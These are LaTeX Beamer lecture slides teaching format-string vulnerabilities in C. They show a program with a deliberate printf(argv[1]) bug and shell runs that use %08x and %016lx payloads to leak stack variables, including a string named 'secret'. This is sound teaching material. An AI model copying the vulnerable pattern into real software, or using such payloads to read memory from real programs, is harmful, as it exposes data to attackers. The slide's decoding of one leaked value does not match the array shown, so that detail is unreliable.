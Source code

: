 \documentclass{beamer}
\begin{document}
\subsection{Exploitation with \texttt{printf(argv[1])}}

\begin{frame}[fragile]
\frametitle{Dangerous code: \texttt{printf(argv[1])}}

\begin{lstlisting}[language=C]
#include <stdio.h>
int main(int argc, char **argv)
{
    int u=5,v=9;
    char t[]="abcabcabcabcabcabcabc";
    char s[]="secret";

    printf("%s",argv[1]);  // correct
    printf(argv[1]);       // DANGEROUS!
    printf("\n");
}
\end{lstlisting}

\begin{alertblock}{Danger}
\texttt{printf(argv[1])} uses user input as the format string: the attacker controls the format specifiers!
\end{alertblock}

\end{frame}


\begin{frame}[fragile]
\frametitle{Reading the stack via \texttt{\%08x} and \texttt{\%016lx}}

\begin{lstlisting}[language=bash,basicstyle=\ttfamily\tiny]
$ ./a.out coucou
coucoucoucou
$ ./a.out coucou%08x
coucou%08xcoucou17bbd006
$ ./a.out coucou%08x%08x%08x%08x
coucou%08x%08x%08x%08xcoucoufcc52006000000000000000100000000
$ ./a.out $(python3 -c "print('coucouuu'+20*'-%016lx')")
coucouuu-...-00746572636573ff-6463626164636261
-0063626164636261-...-0000000500000009-...
\end{lstlisting}

We can see the local variables of \texttt{main}:
\begin{itemize}
\item \texttt{"00746572636573ff"} $\rightarrow$ ``secret'' (in hexadecimal)
\item \texttt{"6463626164636261"} $\rightarrow$ ``abcdabca'' (in hexadecimal)
\item \texttt{"0000000500000009"} $\rightarrow$ the values of \texttt{u=5} and \texttt{v=9}
\end{itemize}

\end{frame}
\end{document}

